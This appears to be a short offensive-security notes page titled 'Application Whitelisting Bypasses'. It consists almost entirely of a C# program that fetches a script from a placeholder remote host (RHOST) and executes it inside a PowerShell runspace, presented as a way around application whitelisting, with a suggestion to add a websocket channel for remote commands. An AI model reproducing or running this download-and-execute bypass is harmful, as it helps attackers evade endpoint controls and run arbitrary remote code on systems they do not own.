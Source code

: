 # Application Whitelisting Bypasses
---

### PowerShell Runspace
This will allow you to execute the contents of a remote file in a PowerShell runspace. This could be improved by creating a websocket server/client to execute commands within the runspace. 
```cs
using System;
using System.Net;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace ConsoleApp3
{
    public class Program
    {
        public static void Main(string[] args)
        {
            WebClient client = new WebClient();
            var myString = client.DownloadString("http://RHOST/string.txt");
            Console.WriteLine("Command to be executed: " + myString);
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(myString);
            Console.WriteLine("Executing command ...");
            ps.Invoke();
            Console.WriteLine("Command executed.");
            rs.Close();
        }
    }
}
```
